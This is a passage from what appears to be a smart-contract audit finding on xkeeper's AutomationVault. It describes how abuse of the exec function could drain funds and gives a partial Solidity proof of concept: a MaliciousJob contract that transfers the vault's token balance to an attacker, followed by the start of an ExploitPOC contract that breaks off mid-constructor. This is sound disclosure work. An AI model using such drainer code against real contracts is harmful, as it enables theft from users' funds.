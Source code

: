 - Fund Drainage: The manipulation of fee data within the exec function allows attackers to drain funds from the contract. They can direct fees to their own address or other unintended recipients, leading to significant financial loss for the contract and its users.

- Contract Disruption: Unauthorized function execution and fund drainage can disrupt the normal functioning of the contract. This may lead to a loss of trust among users and stakeholders, damaging the reputation of the contract and its associated projects.

- Security Breaches: The vulnerabilities may lead to security breaches, where attackers gain control over the contract's functionality. This can enable further exploits and attacks on other interconnected contracts or platforms.

- Financial Loss for Users: Users who rely on the contract for its intended purpose may suffer financial loss due to fund drainage or other unauthorized actions. This can discourage further use of the contract and damage its user base.

## Code Snippet
https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/core/AutomationVault.sol#L397

## Proof of Concept
-    `MaliciousJob`: This contract represents the malicious job that the attacker will execute. It contains a function, `drainFunds()`, that transfers all the tokens from the `AutomationVault` to the attacker's address.

-    `ExploitPOC`: This contract contains the logic to execute the exploit. It creates an instance of `MaliciousJob` and uses the exec function of the `AutomationVault` to execute the `drainFunds()` function.

-    In the `executeExploit()` function, the attacker prepares an `execData` array containing the job contract and job data (`drainFunds()` function) to be executed. The attacker will then calls the exec function of the vault to execute the malicious job.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "./AutomationVault.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousJob {
    address public automationVault;
    address public token;
    address public attacker;
    
    constructor(address _automationVault, address _token, address _attacker) {
        automationVault = _automationVault;
        token = _token;
        attacker = _attacker;
    }
    
    // Malicious function to drain funds
    function drainFunds() external {
        // Access the token from the vault and transfer it to the attacker
        uint256 balance = IERC20(token).balanceOf(automationVault);
        IERC20(token).transferFrom(automationVault, attacker, balance);
    }
}

contract ExploitPOC {
    AutomationVault public vault;
    MaliciousJob public maliciousJob;
    address public attacker;

    constructor(address _vault, address _token, address _attacker) {
        vault = AutomationVault(_vault);
```